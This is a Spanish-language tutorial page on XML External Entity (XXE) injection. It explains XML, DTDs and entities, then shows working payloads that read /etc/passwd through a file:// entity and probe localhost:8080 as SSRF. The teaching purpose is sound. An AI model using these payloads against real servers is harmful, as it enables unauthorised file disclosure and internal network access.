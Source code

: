```yaml
---
cover: >-
  https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgE4vynbkNnVM5319Tqu87L0GPgcmxXrIz91Ctiikj1LTah-5opAiIzT5JkV3wlpHlgJdGXosG901oQ45kz9Pfogkkm9yjajnyOgVKsKo3tG3XVhclUEWpPqjxIN7APc0hgxnsHH7k6nAJci5OkwDFj8EKjMP_h-fOYYsP8Tp7ceYQuInfdtt_L-d0G/s16000/XXE-Attack.jpg
coverY: 64
---
```


# XML External Entity Injection (XXE)

## ¿Que es XML?

XML es un lenguaje de marcado diseñado para transportar datos. Este lenguaje usa una estructura de árbol, como HTML, pero a diferencia de este, las etiquetas no son predefinidas, los nombres de las etiquetas dan información de los datos que contiene. Este es un ejemplo de una estructura XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
  <para>Tove</para>
  <de>Jani</de>
  <titulo>Reminder</titulo>
  <cuerpo>Don't forget me this weekend!</cuerpo>
</note>
```

## ¿Que es un XXE?

Los ataques XML External Entity Injection (XXE), son inyecciones que permiten a un atacante interferir en el procesamiento de datos XML de una web. Existen diferentes tipos de ataques XXE:

* **XXE de recuperación de archivos:** En este tipo de XXE, se pretende recuperar un archivo del sistema del servidor
* **XXE derivado a SSRF:** En esta variante de los XXE, se pretende derivar el XXE, a un ataque de tipo SSRF, y falsificar las solicitudes del lado del servidor
* **Blind XXE de filtrado de datos OOB:**
* **Blind XXE de recuperación de datos a través de mensajes de error:** Este ataque ofrece una vision distinta, ya que permite visualizar los archivos en el error.

## Document Type Definition (DTD)

El XML Document type definition, contiene declaraciones que definen la estructura de un documento XML. EL DTD, se declara dentro del elemento `DOCTYPE` opcional que da comienzo al documento XML.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "Note.dtd">
<note>
    <para>Tove</para>
    <de>Jani</de>
    <titulo>Reminder</titulo>
    <cuerpo>Don't forget me this weekend!</cuerpo>
</note>
```

## Entidades XML

Las entidades XML, son una forma de representar un elemento de datos sin necesidad de un documento XML, en lugar de usar los datos en si.

### Entidades XML Personalizadas

XML permite entidades personalizadas que pueden ser definidas sin el DTD, por ejemplo:

```xml
<?xml version="1.0"?>
<!DOCTYPE tutorials [ <!ENTITY footer "Gracias, esperamos que vuelvas!"> ]>
<tutorials>
  <tutorial>
    <name>XML Tutorial</name>
    <url>https://www.quackit.com/xml/tutorial</url>
    <footer>&footer;</footer>
  </tutorial>
  <tutorial>
    <name>HTML Tutorial</name>
    <url>https://www.quackit.com/html/tutorial</url>
    <footer>&footer;</footer>
  </tutorial>
</tutorials>
```

En este caso, `footer` es la entidad, y `"Gracias, esperamos que vuelvas!"` es el valor de la entidad. Para invocar dicha entidad, debemos de hacerlo con la siguiente sintaxis: `&entity_name;` .

### Entidades XML Externas

Las entidades XML externas, es un tipo de entidad personalizada en la que el valor se ubica fuera del DTD. Para poder declararlas hay que seguir una cierta sintaxis:

```xml
<!DOCTYPE tutorials [ <!ENTITY entity_name SYSTEM "URL"> ]>
```

```xml
<!ENTITY entity_name SYSTEM "URL">
```

Existen varias formas de pasarle un valor a la entidad, el primero es mediante una URL:

```xml
<!ENTITY writer SYSTEM "https://www.w3schools.com/entities.dtd">
<!ENTITY copyright SYSTEM "https://www.w3schools.com/entities.dtd">

<author>&writer;&copyright;</author>
```

El otro, es mediante un archivo usando el protocolo `file://` .

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Explotando un XXE para obtener ficheros

En el caso que queramos explotar un XXE y ver ficheros del servidor en la respuesta, lo podemos hacer añadiendo un DTD y modificandolo:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

En este caso, mediante `file://` vemos el archivo `passwd`, ahora solo tendremos que incluir la entidad `&xxe;` en uno de los campos de datos del XML. EJ:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>
    &xxe;
    </productId>
</stockCheck>
```

## Explotando un XXE a SSRF

Este ataque consiste en obtener information que solo se puede ver internamente a través de el XXE, por ejemplo, tienes una web que en una solicitud, usa XML, y este es vulnerable, puedes usar las entidades personalizadas internas para mediante una solicitud a un puerto que solo se puede ver desde dentro, obtener información acerca de el, por ejemplo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://localhost:8080"> ]>
<stockCheck>
    <productId>
    &xxe;
    </productId>
</stockCheck>
```



{% hint style="info" %}
Enlaces de Interés:

1. [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
2. [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)
3. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)
4. [https://www.hackerone.com/knowledge-center/xxe-complete-guide-impact-examples-and-prevention](https://www.hackerone.com/knowledge-center/xxe-complete-guide-impact-examples-and-prevention)
5. [https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list)
{% endhint %}
